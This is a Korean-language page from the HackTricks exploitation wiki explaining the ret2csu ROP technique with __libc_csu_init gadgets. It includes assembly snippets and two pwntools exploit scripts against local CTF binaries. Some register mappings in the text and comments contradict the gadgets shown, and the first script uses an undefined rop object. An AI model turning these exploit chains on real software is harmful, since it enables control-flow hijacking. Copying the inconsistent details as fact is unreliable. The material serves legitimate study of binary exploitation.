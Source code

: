 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)기본 정보

**ret2csu**는 프로그램을 제어하려고 할 때 사용하는 해킹 기술로, 프로그램의 동작을 조작하는 데 일반적으로 사용하는 **gadgets**를 찾을 수 없을 때 사용됩니다.

프로그램이 특정 라이브러리(예: libc)를 사용할 때, 프로그램의 다양한 부분이 서로 통신하는 방식을 관리하기 위한 몇 가지 내장 함수가 있습니다. 이러한 함수 중에는 우리가 잃어버린 gadgets 역할을 할 수 있는 숨겨진 보석들이 있으며, 특히 `__libc_csu_init`이라는 함수가 있습니다.

### \_\_libc\_csu\_init의 마법의 Gadgets

**`__libc_csu_init`**에는 강조할 두 가지 명령어 시퀀스(gadgets)가 있습니다:

1. 첫 번째 시퀀스는 여러 레지스터(rbx, rbp, r12, r13, r14, r15)에 값을 설정할 수 있게 해줍니다. 이들은 나중에 사용하고 싶은 숫자나 주소를 저장할 수 있는 슬롯과 같습니다.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
이 가젯은 스택에서 값을 꺼내 레지스터를 제어할 수 있게 해줍니다.

2. 두 번째 시퀀스는 우리가 설정한 값을 사용하여 몇 가지 작업을 수행합니다:
* **특정 값을 다른 레지스터로 이동**시켜 함수의 매개변수로 사용할 준비를 합니다.
* **r15와 rbx의 값을 더한 후 rbx에 8을 곱하여** 결정된 위치로 호출을 수행합니다.
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
2. 아마도 그곳에 쓸 주소를 모르고 **`ret` 명령어**가 필요할 것입니다. 두 번째 가젯도 **`ret`로 끝나지만**, 그것에 도달하기 위해서는 몇 가지 **조건**을 충족해야 합니다:
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
조건은 다음과 같습니다:

* `[r12 + rbx*8]`는 호출 가능한 함수가 저장된 주소를 가리켜야 합니다 (아이디어가 없고 pie가 없다면, 그냥 `_init` 함수를 사용할 수 있습니다):
* 만약 \_init이 `0x400560`에 있다면, GEF를 사용하여 메모리에서 그것에 대한 포인터를 검색하고 `[r12 + rbx*8]`를 \_init에 대한 포인터가 있는 주소로 설정합니다:
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp`와 `rbx`는 점프를 피하기 위해 동일한 값을 가져야 합니다.
* 고려해야 할 생략된 pop이 있습니다.

## RDI와 RSI

ret2csu 가젯에서 **`rdi`**와 **`rsi`**를 제어하는 또 다른 방법은 특정 오프셋에 접근하는 것입니다:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

자세한 정보는 이 페이지를 확인하세요:

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## 예제

### 호출 사용

syscall을 하거나 `write()`와 같은 함수를 호출하고 싶지만 `rdx`와 `rsi` 레지스터에 특정 값이 필요하다고 가정해 보겠습니다. 일반적으로 이러한 레지스터를 직접 설정하는 가젯을 찾겠지만, 찾을 수 없습니다.

여기서 **ret2csu**가 등장합니다:

1. **레지스터 설정**: 첫 번째 매직 가젯을 사용하여 스택에서 값을 pop하여 rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx), r15에 넣습니다.
2. **두 번째 가젯 사용**: 이러한 레지스터가 설정되면 두 번째 가젯을 사용합니다. 이를 통해 선택한 값을 `rdx`와 `rsi`(각각 r14와 r13에서)로 이동시켜 함수 호출을 위한 매개변수를 준비합니다. 또한 `r15`와 `rbx`를 제어함으로써 프로그램이 계산하여 `[r15 + rbx*8]`에 배치한 주소에 있는 함수를 호출하도록 만들 수 있습니다.

이 기술을 사용한 [**예제와 설명이 여기에 있습니다**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation), 그리고 이것이 사용된 최종 익스플로잇입니다:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
이전 익스플로잇은 **`RCE`**를 수행하기 위한 것이 아니라, **`win`**이라는 함수를 호출하기 위한 것입니다 (ROP 체인에서 `win`의 주소를 stdin에서 호출된 gets로 가져와 r15에 저장함) 세 번째 인수로 값 `0xdeadbeefcafed00d`를 사용합니다.
{% endhint %}

### 호출 우회 및 ret 도달

다음 익스플로잇은 [**이 페이지**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html)에서 추출되었으며, 여기서 **ret2csu**가 사용되지만 호출을 사용하는 대신 **비교를 우회하고 호출 후 `ret`에 도달합니다**:
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### 왜 libc를 직접 사용하지 않나요?

보통 이러한 경우는 [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/)에 취약하지만, 때때로 libc에서 직접 찾은 가젯으로 쉽게 제어할 수 있는 것보다 더 많은 매개변수를 제어해야 할 필요가 있습니다. 예를 들어, `write()` 함수는 세 개의 매개변수를 필요로 하며, **이 모든 것을 직접 설정할 수 있는 가젯을 찾는 것은 불가능할 수 있습니다**.
